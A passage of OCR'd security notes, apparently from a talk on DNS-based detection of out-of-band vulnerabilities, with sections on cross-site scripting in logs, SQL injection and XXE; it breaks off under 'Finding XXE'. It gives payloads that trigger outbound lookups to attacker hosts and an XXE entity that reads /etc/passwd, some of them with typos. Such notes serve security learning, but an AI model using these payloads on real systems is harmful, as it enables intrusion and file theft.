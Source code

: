 All requests to *.somesite.com go to its DNS sever.



### Cross-site Scripting in Logs

Cross-site scripting occurs when HTML runs in somebody else's browser.

For example, you can set the user-agent to `<img src="http://somesite.com/img.jpg">` and then watch the DNS server.

1. HTTP Request is sent to a vulnerable server.
2. HTML is returned.
3. DNS request is sent.
4. NXDOMAIN = "host not found"

So:

1. A packet capture will look completely innocent.
2. We aren't directly connecting off the network so firewalls will never know.

We can tell when a service wants to make a connection, without the connection succeeding, and without the service even attempting to make the connection.



### SQL Injection

Two SQL queries that should cause a DNS lookup:

```
EXEC sp_addlinkedserver 'somsite.com'. N'A';
```

and

```
SELECT 1 INTO OUTFILE "\\cba.skullseclabs.org\C$";
```

Results: data theft, shell access, arbitrary read.


### XXE

XXE: returns to XML external entity attacks and lets you include files from filesystem.

```
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;></foo>
```

And also files from remote servers:

```
<!ENTITY xxe SYSTEM "http://www.google.ca">]>
<foo>&xee;</foo>
```

### Finding XXE

Grab a resource from a domain:
